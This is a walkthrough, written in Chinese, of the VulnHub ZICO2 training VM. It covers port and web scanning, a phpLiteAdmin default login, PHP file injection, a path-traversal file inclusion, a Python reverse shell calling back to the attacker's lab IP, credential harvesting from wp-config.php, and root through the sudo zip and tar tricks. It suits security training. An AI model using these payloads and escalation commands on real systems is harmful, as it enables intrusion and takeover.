# ZICO2：1

> 下载地址：https://download.vulnhub.com/zico/zico2.ova
>

## 实战演练

找到靶场IP：`192.168.32.154`



扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.32.154                                                                                                                                                                                            
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-12 02:00 EDT
Nmap scan report for 192.168.32.154
Host is up (0.00032s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
111/tcp   open  rpcbind 2-4 (RPC #100000)
41224/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:BA:E4:65 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.86 seconds

```

浏览器访问



获取WEB系统的信息，找到`dbadmin`目录

```
┌──(root💀kali)-[~/Desktop]
└─# dirb  http://192.168.32.154/     

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jun 12 02:03:31 2022
URL_BASE: http://192.168.32.154/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.154/ ----
+ http://192.168.32.154/cgi-bin/ (CODE:403|SIZE:290)                                                                 
==> DIRECTORY: http://192.168.32.154/css/                                                                            
==> DIRECTORY: http://192.168.32.154/dbadmin/                                                                        
==> DIRECTORY: http://192.168.32.154/img/                                                                            
+ http://192.168.32.154/index (CODE:200|SIZE:7970)                                                                   
+ http://192.168.32.154/index.html (CODE:200|SIZE:7970)                                                              
==> DIRECTORY: http://192.168.32.154/js/                                                                             
+ http://192.168.32.154/LICENSE (CODE:200|SIZE:1094)                                                                 
+ http://192.168.32.154/package (CODE:200|SIZE:789)                                                                  
+ http://192.168.32.154/server-status (CODE:403|SIZE:295)                                                            
+ http://192.168.32.154/tools (CODE:200|SIZE:8355)                                                                   
==> DIRECTORY: http://192.168.32.154/vendor/                                                                         
+ http://192.168.32.154/view (CODE:200|SIZE:0)                                                                       
                                                                                                                     
---- Entering directory: http://192.168.32.154/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                     
---- Entering directory: http://192.168.32.154/dbadmin/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                     
---- Entering directory: http://192.168.32.154/img/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                     
---- Entering directory: http://192.168.32.154/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                     
---- Entering directory: http://192.168.32.154/vendor/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sun Jun 12 02:03:35 2022
DOWNLOADED: 4612 - FOUND: 8

```

```
┌──(root💀kali)-[~/Desktop]
└─# nikto -host  http://192.168.32.154/     
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.32.154
+ Target Hostname:    192.168.32.154
+ Target Port:        80
+ Start Time:         2022-06-12 02:03:42 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Server may leak inodes via ETags, header found with file /, inode: 3803593, size: 7970, mtime: Thu Jun  8 15:18:30 2017
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.26
+ /package.json: Node.js package file found. It may contain sensitive information.
+ 8725 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2022-06-12 02:03:59 (GMT-4) (17 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```



phpLiteAdmin v1.9.3存在RCE漏洞



使用`admin`密码进行登录



创建数据库，名字叫`hack.php`



创建一个表，里面内容填写`<?php phpinfo()?>`，其中`hack.php`在`/usr/databases/`文件夹内



主站有文件包含漏洞



这样可以文件包含`hack.php`。

```
http://192.168.32.154/view.php?page=../../../../../../../../usr/databases/hack.php
```



接下来要进行反弹shell，先把这个表的内容清空，在添加以下反弹shell代码



```
<?php
exec("python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"192.168.32.130\",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")
?>
```



反弹成功



在`/home/zico/wordpress`目录找到`wp-config.php`配置文件，找到一个账号密码：`zico/sWfCsfJSPV9H3AmQzw8`

```
$ cat wordpress/wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'zico');

/** MySQL database username */
define('DB_USER', 'zico');

/** MySQL database password */
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');

/** MySQL hostname */
define('DB_HOST', 'zico');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define('AUTH_KEY',         'put your unique phrase here');
define('SECURE_AUTH_KEY',  'put your unique phrase here');
define('LOGGED_IN_KEY',    'put your unique phrase here');
define('NONCE_KEY',        'put your unique phrase here');
define('AUTH_SALT',        'put your unique phrase here');
define('SECURE_AUTH_SALT', 'put your unique phrase here');
define('LOGGED_IN_SALT',   'put your unique phrase here');
define('NONCE_SALT',       'put your unique phrase here');

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix  = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the Codex.
 *
 * @link https://codex.wordpress.org/Debugging_in_WordPress
 */
define('WP_DEBUG', false);

/* That's all, stop editing! Happy blogging. */

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
        define('ABSPATH', dirname(__FILE__) . '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');

```

使用zico账号进行登录



查看zico这个账号支持sudo命令

```
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip

```

ZIP提权

```
zico@zico:~$ touch /tmp/test
zico@zico:~$ sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
  adding: tmp/test (stored 0%)
root@zico:~# id
uid=0(root) gid=0(root) groups=0(root)

```

tar提权

```
zico@zico:~$ sudo /bin/tar -c -f /tmp/zico.zip . --checkpoint=1 --checkpoint-action=exec='sudo su'
root@zico:/home/zico# id                                                                                             
uid=0(root) gid=0(root) groups=0(root)   
```

获取flag.txt


